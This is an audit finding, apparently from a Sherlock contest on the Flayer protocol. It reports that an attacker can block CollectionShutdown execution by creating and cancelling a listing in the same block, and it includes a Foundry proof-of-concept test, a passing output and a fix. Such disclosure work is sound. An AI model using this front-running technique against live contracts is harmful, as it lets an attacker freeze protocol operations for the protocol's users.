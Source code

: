 Warm Daisy Tiger

Medium

# DoS collection shutdown execution by listing tokens

## Summary
The function `CollectionShutdown#execute()` requires no listings currently exist. However, a malicious actor can cause `execute()` transaction to revert by front-run create a listing and cancel the listing in the same block.

## Vulnerability Detail
The function [`CollectionShutdown#execute()` requires no listings currently exist](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L240-L241).
When the shutdown is executable, [the collection has not been removed](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L250-L251) (function `Locker#sunsetCollection` not yet executed) and a malicious actor can still create a listing to DoS the `execute()` function. 
The newly created listing can then be cancelled in the same block without paying platform taxes because taxes are fully refunded within the same block if the listing is cancelled. 
So far, the attacker does not profit, but suffer loss neither

### PoC

Add the test below to file `CollectionShutdown.t.sol`

```solidity
    function test_DOS_Execute() public withDistributedCollection {
      // Make a vote with our test user that holds `1 ether`, which will pass quorum
        collectionShutdown.vote(address(erc721b));

        // Confirm that we can now execute
        assertCanExecute(address(erc721b), true);

        // Mint NFTs into our collection {Locker}
        uint[] memory tokenIds = _mintTokensIntoCollection(erc721b, 3);

        // assume the attacker has NFT
        address malicious = makeAddr("malicious");
        erc721b.mint(malicious, 123);
        Listings.Listing memory listing = IListings.Listing({
            owner: payable(malicious),
            created: uint40(block.timestamp),
            duration: VALID_LIQUID_DURATION,
            floorMultiple: 101
        });

        
        // attacker creates listing
        vm.startPrank(malicious);
        erc721b.setApprovalForAll(address(listings), true);

        // attacker does not have collection token
        assertEq(locker.collectionToken(address(erc721b)).balanceOf(malicious), 0);

        // create listing
        _createListing({
            _listing: IListings.CreateListing({collection: address(erc721b), tokenIds: _tokenIdToArray(123), listing: listing})
        });

        // attacker receives CT
        uint received = locker.collectionToken(address(erc721b)).balanceOf(malicious);
        assertGt(received, 0);
        vm.stopPrank();

        vm.expectRevert(); // Execution blocked
        collectionShutdown.execute(address(erc721b), tokenIds);

        // attacker cancel listing
        vm.startPrank(malicious);

        // use the received amount of CT
        locker.collectionToken(address(erc721b)).approve(address(listings), received);
        listings.cancelListings(address(erc721b), _tokenIdToArray(123), false);


        // collection token balance goes to zero at the end
        assertEq(locker.collectionToken(address(erc721b)).balanceOf(malicious), 0);
    }
```

Run the test and console shows:
```bash
Ran 1 test for test/utils/CollectionShutdown.t.sol:CollectionShutdownTest
[PASS] test_DOS_Execute() (gas: 1131312)
```

## Impact
Shutdown execution is blocked

## Code Snippet
https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L240-L241

https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L250-L251

https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L149C27-L149C48

https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L434C42-L434C60

https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L925-L934

## Tool used

Manual Review

## Recommendation
- Prevent creating listings when collection shutdown is executable
